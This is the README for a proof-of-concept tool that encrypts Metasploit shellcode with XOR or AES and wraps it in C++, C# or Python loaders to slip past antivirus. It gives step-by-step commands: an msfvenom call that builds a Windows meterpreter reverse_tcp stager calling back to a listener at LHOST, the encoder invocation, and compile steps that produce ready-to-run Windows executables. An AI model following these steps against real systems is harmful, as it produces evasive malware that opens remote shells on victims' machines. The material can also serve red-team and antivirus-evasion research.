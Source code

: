 Mutlibyte XOR or AES encrypted shellcode
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

These little proof of concept are inspired by this blogpost: [Bypass antivirus with 10 lines of code](http://www.attactics.org/2016/03/bypassing-antivirus-with-10-lines-of.html)

The technique uses two kind of code file:
1. The shellcode encoder/encrypter: `shellcode_encoder.py`

2. Various shellcode wrapper, in C++, C# and Python:
	- `encryptedShellcodeWrapper.cpp` - for now supports **only** XOR encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and AES encryption
	- `encryptedShellcodeWrapper.py` - supports both XOR and AES encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/ShellcodeWrapper ShellcodeWrapper`
* cd into the ShellcodeWrapper folder: `cd ShellcodeWrapper`
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), for example:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

In this example, the output is a raw (*unencoded & unencrypted*) reverse_tcp meterpreter stager for x86 platform. You should adapt it to your needs (*payload and parameters*).

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `aes`
  - desired output: `base64`, `cpp`, `csharp`, `python`

For instance, to xor encrypt the shellcode with the key '*thisismykey*' and get an output code file in C#, C++ and Python:
```
root@kali:~# ./shellcode_encoder.py -cpp -cs -py shellcode.raw thisismykey xor
```
This will generate C#, C++ and Python code file in the `result` folder. Those files are ready to use/compile.

Eventually:
1. For the C++ wrapper, compile the C++ code file into a Windows executable:
	You can create a new VisualStudio project for **Win32 console application** and use the C++ code provided as the main file. Any other method of compilation will require slight adjustment of the C++ code (headers mostly).
2. For the C# wrapper, compile the C# code file into a Windows executable:
	`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:multibyteEncodeShellcode.exe multibyteEncodeShellcode.cs`
3. For the Python wrapper, just run it as a python script, or use PyInstaller to make it a Windows standalone executable
